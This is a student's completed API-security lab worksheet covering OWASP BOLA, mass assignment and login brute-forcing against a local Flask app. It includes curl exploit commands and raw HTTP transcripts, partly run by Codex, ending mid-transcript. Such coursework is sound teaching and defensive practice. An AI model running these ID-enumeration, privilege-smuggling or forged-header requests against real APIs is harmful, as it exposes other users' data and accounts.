







# Worksheet 10 — API Security (3 hrs)

> **Course:** Software Security (KOSEN69) · Week 10
> **Aligned:** OWASP API Security Top 10:2023 — API1 BOLA · API3 Broken Object Property Level Auth (Mass Assignment) · API4 Unrestricted Resource Consumption
> **Signature game:** 🥷 crAPI Raid
>
> **Ethics note:** Run exploits **only** against the lab targets shipped here (`vulnerable_api.py` on `:8080`) or your own OWASP crAPI instance. Never test BOLA, mass assignment, or brute-force against systems you do not own or are not explicitly authorized to test.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
| Danaiphong Songsikhwa | 6631503106 | 23 October 2026 | Not provided |

**AI use:** Codex helped explain the questions, draft the English answers, write the extra fixes and tests, and run the initial local lab. The screenshots below were captured by the student during a later run on the same machine. The answers should still be reviewed before submission.

## Part 2 — Lecture Questions

1. Define **BOLA (API1:2023)**. Why is it the #1 API risk, and why can't a WAF reliably stop it?

**Answer:** BOLA stands for Broken Object Level Authorization. It means the API lets someone access data without checking if it belongs to them. It is the first risk on the list because APIs use IDs in many places, and changing one ID may reveal another user's data. A WAF cannot reliably catch this because a request like `/api/users/3/orders` looks normal. The application has to check who is allowed to read those orders.

2. What is **mass assignment / broken object property level authorization (API3:2023)**? Contrast a blocklist vs. an allow-list of bindable fields.

**Answer:** Mass assignment happens when the server copies fields from the request into a record without checking which fields the user can set. For example, someone could add `is_admin: true` when creating an account. A blocklist says which fields are forbidden, but it can miss a field added later. An allow-list is safer because it only accepts the fields we choose, such as `username` and `password`.

3. **API4:2023** is unrestricted resource consumption. Give two distinct impacts (security and availability) of an unthrottled `/api/login`.

**Answer:** First, an attacker can keep guessing passwords and may get into someone's account. Second, too many login requests can keep the server busy checking passwords and using database connections. This can make the API slow or unavailable for other users.

4. In `vulnerable_api.py`, `current_user()` trusts the `X-User-Id` header. Why is a client-supplied header NOT authentication, and what should replace it?

**Answer:** Anyone sending a request can change `X-User-Id`, so setting it to 3 does not prove that the caller is Carol. The server should check a session or token issued after a successful login and get the user ID from that. The reference API still trusts this header, which means its ownership check can be bypassed by pretending to be another user.

5. Why does object-level authorization have to be checked **per request, per object** rather than once at login?

**Answer:** Being logged in does not mean a user can read everyone's data. They can change the ID in the next request, and their permissions might also change after login. The server needs to check permission for the requested object each time.


## Part 3 — Hands-on Lab (145 min)

**Learning goals:** Exploit BOLA, mass assignment, and a missing rate limit against a live API; then read the secure version and explain each fix.

**Prerequisites:** Docker + Docker Compose, `curl`. (Optional bonus: cloned OWASP crAPI.)

**Environment setup**
```bash
cd labs/week10-api-security
docker compose up         # INSECURE API on :8080, SECURE API on :8081
# Seeded users: alice(id 1) bob(id 2) carol(id 3, admin, balance 9999)
```

**What to submit per task:** the exact command(s) + raw response/HTTP status, a screenshot, and a 2–3 sentence mitigation note mapping the bug to its OWASP API id.

### Task 0 — Onboarding (15 min)
Confirm both APIs respond: `curl http://localhost:8080/` and `curl http://localhost:8081/`. Note which port is insecure. Record the three seeded users.
**Deliverable:** both root responses + the user table.


#### Answer and results

Both root requests returned HTTP 200. Port 8080 returned `Week 10 INSECURE API - see attack.md` (the actual raw response uses a Unicode dash). Port 8081 returned `Week 10 SECURE API`.

| User | ID | Balance | Admin |
| --- | --- | --- | --- |
| alice | 1 | 100 | false |
| bob | 2 | 50 | false |
| carol | 3 | 9999 | true |

These are the three users already defined in the source code. Port 8080 is the insecure version used for the exercises. For a real API, it would need ownership checks, control over account fields, and limits on login attempts.

**Task 0 screenshot**




### Task 1 — BOLA: read another user's orders (35 min)
**Goal:** Read carol's (admin) orders without being carol — API1:2023.
**Steps:**
1. `curl http://localhost:8080/api/users/3/orders` — note you receive the "Server rack" order with no auth.
2. Iterate the id: `curl http://localhost:8080/api/users/2/orders`.
3. On the secure API observe the ladder: `curl -i http://localhost:8081/api/users/3/orders` (401), `curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/3/orders` (403), `curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/1/orders` (200).
**Deliverable:** the leaked order JSON + the 401/403/200 transcript + mitigation note.


#### Answer and results

`GET :8080/api/users/3/orders` returned HTTP 200 without any credentials. The response included Carol's order `C-1`, item `Server rack`, total `5000`, plus the local demonstration flag. Changing the ID to 2 returned Bob's order `B-1`, item `Mouse`, total `15`.

On port 8081, no identity returned 401; `X-User-Id: 1` requesting Carol returned 403; the same header requesting Alice returned 200 with the Keyboard order. The full transcript is in Appendix A.

Fix (API1:2023): Check that the logged-in user owns the requested orders, or has admin permission. The identity must come from a verified session or token. Trusting a user ID in a header would still let someone pretend to be the owner.

**Task 1 screenshot**




### Task 2 — Mass assignment: self-promote to admin (30 min)
**Goal:** Smuggle `is_admin` + `balance` into user creation — API3:2023.
**Steps:**
1. `curl -X POST http://localhost:8080/api/users -H "Content-Type: application/json" -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'`
2. Confirm the response echoes `"is_admin": true, "balance": 1000000`.
3. Repeat against `:8081` and confirm the smuggled fields are forced to `is_admin:false, balance:0`.
**Deliverable:** both responses side by side + mitigation note (allow-list in `solution_api.py`).


#### Answer and results

The exact payload was `{"username":"mallory","password":"x","is_admin":true,"balance":1000000}`.

| Result | Insecure :8080 | Reference :8081 |
| --- | --- | --- |
| HTTP status | 201 | 201 |
| is_admin | true | false |
| balance | 1000000 | 0 |
| extra flag | local demo flag | none |

Both APIs created user ID 4 in the initial recorded run. Later runs can have a higher ID because the apps keep accounts in memory. On port 8080, the new account became an admin and got the balance from the request. On port 8081, the account was still created, but `is_admin` stayed false and `balance` stayed 0.

Fix (API3:2023): Only take `username` and `password` from the request. The server should choose the ID, role, and starting balance. It should also check the input types and hash passwords instead of storing or returning them as plain text.

**Task 2 screenshot**




### Task 3 — Unrestricted resource consumption: brute-force login (25 min)
**Goal:** Show `/api/login` has no throttle — API4:2023.
**Steps:**
1. Run the brute-force loop from `attack.md` against `:8080` (guesses incl. `alice123`) — all attempts processed.
2. On `:8081` loop 7 times: `for i in $(seq 1 7); do curl -s -o /dev/null -w "%{http_code}\n" -X POST http://localhost:8081/api/login -H "Content-Type: application/json" -d '{"username":"alice","password":"wrong"}'; done`
3. Confirm the 6th/7th attempt returns `429`.
**Deliverable:** the `401 401 401 401 401 429 429` sequence + mitigation note.


#### Answer and results

On port 8080, the guesses `wrong1`, `wrong2`, and `wrong3` each returned 401; `alice123` returned 200. All four guesses were processed. On port 8081, seven wrong-password requests returned exactly `401 401 401 401 401 429 429`.

Fix (API4:2023): Limit how many login attempts can be made in a short time, and return 429 when the limit is reached. A real API should also have limits per account and across the service. An IP limit alone can be avoided by using several IPs, and it can block people who share the same network.

**Task 3 screenshot**




### Task 4 — Bonus: crAPI Raid (optional, 20 min)
Against your own OWASP crAPI instance (`git clone https://github.com/OWASP/crAPI.git`), capture one BOLA or mass-assignment flag.
**Deliverable:** flag + endpoint + which API Top 10 id it maps to.


#### Answer and results

This optional task has not been done. The results above are from the supplied local API. `FLAG{bola_demo}` and `FLAG{massassign_demo}` are only demo flags, so they cannot be used as personal CTF flags.


### Task 5 — Defend / fix it (20 min)
**Goal:** Explain the fixes using the secure reference `solution_api.py`.
**Steps:** Read the three `# --- FIX ...` blocks. For each, quote the line(s) that defeat your Task 1–3 exploit: the per-object ownership check (`caller["id"] != uid and not caller["is_admin"]`), `ALLOWED_CREATE_FIELDS` binding, and the `RATE_LIMIT=5 / RATE_WINDOW=60` limiter.
**Deliverable:** for each of API1/API3/API4 — the exploit that worked on `:8080`, the line in `solution_api.py` that blocks it, and the new HTTP status on `:8081`.


#### Answer and results

These line numbers refer to `solution_api.py` in this folder.

**API1:** The insecure request read Carol's orders without permission. Lines 48-49 return 401 if no caller is found. Lines 51-52 are the object ownership check:

```python
if caller["id"] != uid and not caller["is_admin"]:
    return jsonify({"error": "forbidden"}), 403
```

With `X-User-Id: 1`, reading Carol's orders returns 403 and reading Alice's own orders returns 200. However, the check only helps if the identity is correct. The header in the reference can still be changed by the caller.

**API1 screenshot - Ownership check**



**API3:** The insecure creation request set `is_admin` and `balance`. Line 34 defines `ALLOWED_CREATE_FIELDS = {"username", "password"}`. Lines 62 and 66 bind only these fields and override sensitive values:

```python
user = {k: body[k] for k in ALLOWED_CREATE_FIELDS if k in body}
user.update({"id": _next_id, "balance": 0, "is_admin": False})
```

The response is still 201 because creating the account is allowed. The important result is that the account has `is_admin: false` and `balance: 0`, so the attempt to gain admin rights failed.

**API3 screenshot - Allow-list binding**



**API4:** The insecure login processed every guess. Lines 73-74 define the limit, lines 80-83 prune old attempts and count new ones, and lines 89-90 reject a blocked request:

```python
RATE_LIMIT = 5
RATE_WINDOW = 60
if rate_limited(request.remote_addr or "unknown"):
    return jsonify({"error": "too many requests"}), 429
```

The sixth and seventh requests now return 429 within the same window.

**API4 screenshot - Rate limiting**



**Extra fixes:** `defended_api.py` uses a random login token instead of trusting `X-User-Id`. The token expires after 900 seconds. This version also hashes passwords, checks JSON fields and request size, and leaves passwords out of responses. All six tests passed, covering fake identities, access to other users' orders, expired tokens, mass assignment, invalid input, and login limits. It is still a small lab app: its users, sessions, and login counters are stored in memory and reset when it restarts.

Local code commit: `8286b6e244d83dd81f624c03098260a40bf2bdc1`. This commit is saved on `wk10_6631503106`; the branch has not been pushed and no PR has been opened.


## Part 4 — Reflection

1. **Mapping:** complete a table — finding | endpoint | OWASP API id | fix applied.

**Answer:**

| Finding | Endpoint | OWASP API ID | Fix |
| --- | --- | --- | --- |
| Other users' orders can be read | GET /api/users/<id>/orders | API1:2023 | Verified identity plus ownership/admin check |
| User can set admin and balance | POST /api/users | API3:2023 | Allow-list and server-controlled sensitive fields |
| Unlimited password guesses | POST /api/login | API4:2023 | Five attempts per IP per 60 seconds |
| Forged identity header in reference | GET /api/users/<id>/orders | API2:2023 | Verified expiring session instead of X-User-Id |

2. **Real breach:** research an API authorization breach (e.g., the Optus or T-Mobile BOLA/IDOR incidents). Which API Top 10 id matches, and would the `solution_api.py` ownership check have prevented it?

**Answer:**

The Optus breach became public in September 2022. In its 8 August 2025 statement, Australia's OAIC described unauthorized access to millions of customers' personal data and recommended checking that requests for customer information are authorized [1].

I would link access to another customer's record with API1:2023. The source does not confirm a specific attack that changed IDs one by one, so I would not assume that detail. Checking ownership could stop this type of access, but only if the API also verifies who is making the request. The lab's `X-User-Id` check alone would not be enough, and every route that returns customer data needs protection.

3. **Best mitigation:** of object-level auth, allow-list binding, and rate limiting — which gives the most risk reduction for an API platform, and why?

**Answer:**

I would choose ownership checks together with proper authentication first. Otherwise, someone could read another user's private data with just one normal-looking request. The other two fixes are still needed: an ownership check does not stop a user from setting admin fields or making too many login attempts.


## Grading rubric (100)

| Criterion | Weight |
|-----------|--------|
| Lecture questions (Part 2) | 20 |
| Exploitation + evidence (Tasks 1–4: commands, output, screenshots) | 40 |
| Defense (Task 5: fixes mapped to `solution_api.py`) | 25 |
| Reflection (Part 4: mapping, breach, best mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag:** No personal flag was obtained in this local run. The two demo flags are not personal flags.
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?
  2. **Why does your fix actually stop it** — and what could still break it?

---

### Evidence notes and explanation

The eight student screenshots are included beside the relevant tasks. Each shows the terminal identity stamp. Appendix A keeps the initial assistant-run transcript; later screenshots may show different timestamps or newly created user IDs.

1. The requests read another user's orders, set protected account fields, and tried several passwords. These worked because the original API did not check ownership, allowed all JSON fields, and had no login limit.
2. The fixes check a verified identity and ownership, accept only safe account fields, and limit login attempts. They would still need shared storage and stronger abuse controls in a real deployment, since the lab keeps its state in memory.

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Ask an AI assistant to exploit **or** fix this week's vulnerability. Paste its full answer.
2. **Find what's wrong or risky** in it — insecure code, a subtly incomplete fix, a hallucinated API/function/CVE, a missed edge case, or wrong reasoning. Quote the exact line(s).
3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

---

### Audit answer

### 1. Full answer

The answer below was generated by AI for this audit. It is an incomplete suggestion that needs checking.

#### Complete initial AI answer

Prompt: Give a minimal fix for the Week 10 BOLA endpoint, using the existing current_user helper.

AI-generated candidate (for review; incomplete):

Add authentication and an ownership check before returning orders:

```python
@app.get("/api/users/<int:uid>/orders")
def get_orders(uid):
    caller = current_user()
    if caller is None:
        return jsonify({"error": "authentication required"}), 401
    if caller["id"] != uid and not caller["is_admin"]:
        return jsonify({"error": "forbidden"}), 403
    return jsonify(ORDERS.get(uid, []))
```

This blocks an unauthenticated caller and stops Alice, identified by X-User-Id: 1,
from reading Carol's orders. Test no header, Alice reading Carol, and Alice reading
Alice; the expected statuses are 401, 403, and 200.

End of initial candidate answer. This candidate was generated for this worksheet's
AI audit. It is not a claim that a student wrote or independently verified it.

### 2. Risky line and counterexample

The problem with "Add authentication and an ownership check before returning orders" is that the answer still uses the old `current_user()` helper. The line `return USERS.get(int(request.headers.get("X-User-Id", 0)))` trusts whatever user ID is sent in the header. That is not proof of identity.

The candidate's limited test ladder passes, but `curl -i -H 'X-User-Id: 3' http://localhost:8081/api/users/3/orders` still returns 200 with Carol's order without a login. This was verified against the live reference; the transcript is in Appendix A. Passwords are also stored and returned in plaintext in the reference, and its limiter is in memory.

### 3. Corrected, verified version

The fix in `defended_api.py` checks the password at login and issues a random token with an expiry time. The orders route gets the user from that token before checking ownership. The first AI answer missed this because it assumed `current_user()` was already safe.

The fixed version returns 401 for the same fake `X-User-Id: 3` header. The tests also show that Alice can read her own orders but not Carol's, an admin can read Bob's orders, and fake or expired tokens are rejected. Codex ran the regression tests. The screenshot below also shows the student-run comparison of the forged header on ports 8081 and 8082.

**Audit the AI screenshot**


## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.
*Graded on the prompt's precision and your verification — this trains problem decomposition and AI literacy (Denny et al. 2024).*


### Comprehension and prompt answers

### A. Explain in Plain English

This API lets people create accounts, log in, and read orders. The vulnerable version returns orders for any user ID, accepts fields like `is_admin` during registration, and lets someone keep guessing passwords. It trusts the request too much instead of checking what the caller is allowed to do.

### B. Final prompt

"Fix BOLA in this Flask teaching API. Keep vulnerable_api.py and solution_api.py unchanged, and add defended_api.py. Never trust X-User-Id or a user ID sent by the client as authentication. Verify the password at login and issue a random server-side bearer session with a 900-second lifetime; reject missing, fake, and expired tokens with 401. On every orders request, get identity and role from server-side state, return 403 for another user's orders unless the authenticated caller is an admin, and return 200 for the caller's own orders. Keep an allow-list of username and password for registration; validate JSON types, hash passwords, do not return password data, and set ID, role, and balance on the server. Keep five login attempts per IP per 60 seconds. Add runnable regression checks for header forgery, ownership/admin behavior, token expiry, mass assignment, bad bodies, and rate limiting, and state the limitations of an in-memory teaching implementation."

Result: Codex used this prompt to write the extra fixed version and its tests. The fake identity header got 401 on port 8082, compared with 200 on the reference, and all six tests passed. For use outside the lab, the app would still need HTTPS, a shared store for sessions and limits, a way to revoke sessions, and more protection against abuse.

## References

[1] OAIC, "Australian Information Commissioner takes civil penalty action against Optus", 8 August 2025. Accessed 23 October 2026. https://www.oaic.gov.au/news/media-centre/australian-information-commissioner-takes-civil-penalty-action-against-optus

[2] Local course materials: labs/week10-api-security/README.md, worksheet.md, attack.md, solution_api.py, vulnerable_api.py, and SUBMISSION.md.

## Appendix A - Exact commands and raw HTTP responses

These are the initial assistant-run terminal transcripts. The student screenshots are included with the tasks above. The header dates are in GMT; the identity stamp uses Asia/Bangkok. Repeated user creation will get a different ID because the API stores state in memory.

### Task 0 transcript

```text
danaiphong | 6631503106 | 2026-10-23 21:54:03 +07

$ curl -sS -i http://localhost:8080/ 
HTTP/1.1 200 OK
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 38
Connection: close

Week 10 INSECURE API — see attack.md

$ curl -sS -i http://localhost:8081/ 
HTTP/1.1 200 OK
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 18
Connection: close

Week 10 SECURE API

Seed users from vulnerable_api.py:
alice | 1 | balance=100 | admin=false
bob | 2 | balance=50 | admin=false
carol | 3 | balance=9999 | admin=true
```

### Task 1 transcript

```text
danaiphong | 6631503106 | 2026-10-23 21:54:03 +07

$ curl -sS -i http://localhost:8080/api/users/3/orders 
HTTP/1.1 200 OK
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: application/json
Content-Length: 112
Connection: close

[{"item":"Server rack","order_id":"C-1","total":5000},{"item":"FLAG{bola_demo}","order_id":"C-FLAG","total":0}]


$ curl -sS -i http://localhost:8080/api/users/2/orders 
HTTP/1.1 200 OK
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: application/json
Content-Length: 47
Connection: close

[{"item":"Mouse","order_id":"B-1","total":15}]


$ curl -sS -i http://localhost:8081/api/users/3/orders 
HTTP/1.1 401 UNAUTHORIZED
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: application/json
Content-Length: 36
Connection: close

{"error":"authentication required"}


$ curl -sS -i -H X-User-Id:\ 1 http://localhost:8081/api/users/3/orders 
HTTP/1.1 403 FORBIDDEN
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: application/json
Content-Length: 22
Connection: close

{"error":"forbidden"}


$ curl -sS -i -H X-User-Id:\ 1 http://localhost:8081/api/users/1/orders 
HTTP/1.1 200 OK
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: application/json
Content-Length: 50
Connection: close

[{"item":"Keyboard","order_id":"A-1","total":30}]
```

### Task 2 transcript

```text
danaiphong | 6631503106 | 2026-10-23 21:54:03 +07

$ curl -sS -i -X POST http://localhost:8080/api/users -H Content-Type:\ application/json -d \{\"username\":\"mallory\"\,\"password\":\"x\"\,\"is_admin\":true\,\"balance\":1000000\} 
HTTP/1.1 201 CREATED
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: application/json
Content-Length: 110
Connection: close

{"balance":1000000,"flag":"FLAG{massassign_demo}","id":4,"is_admin":true,"password":"x","username":"mallory"}


$ curl -sS -i -X POST http://localhost:8081/api/users -H Content-Type:\ application/json -d \{\"username\":\"mallory\"\,\"password\":\"x\"\,\"is_admin\":true\,\"balance\":1000000\} 
HTTP/1.1 201 CREATED
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: application/json
Content-Length: 74
Connection: close

{"balance":0,"id":4,"is_admin":false,"password":"x","username":"mallory"}
```

### Task 3 transcript

```text
danaiphong | 6631503106 | 2026-10-23 21:54:03 +07

$ curl -sS -i -X POST http://localhost:8080/api/login -H Content-Type:\ application/json -d \{\"username\":\"alice\"\,\"password\":\"wrong1\"\} 
HTTP/1.1 401 UNAUTHORIZED
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: application/json
Content-Length: 13
Connection: close

{"ok":false}


$ curl -sS -i -X POST http://localhost:8080/api/login -H Content-Type:\ application/json -d \{\"username\":\"alice\"\,\"password\":\"wrong2\"\} 
HTTP/1.1 401 UNAUTHORIZED
Server: Werkzeug/3.1.9 Python/3.12.14
Date: Fri, 23 Oct 2026 14:54:03 GMT
Content-Type: application/json
Content-Length: 13
Connection: close

{"ok":false}


$ curl -sS -i -X POST http://localhost:8080/api/login -H Content-Type:\ application/json -d \{\"username\":\"alice\"\,\"password\":\"wrong3\"\} 
HTTP/1.1 401 UNAUTHORIZED
Server: Werkzeug/3.1.9 Python/3.12.14
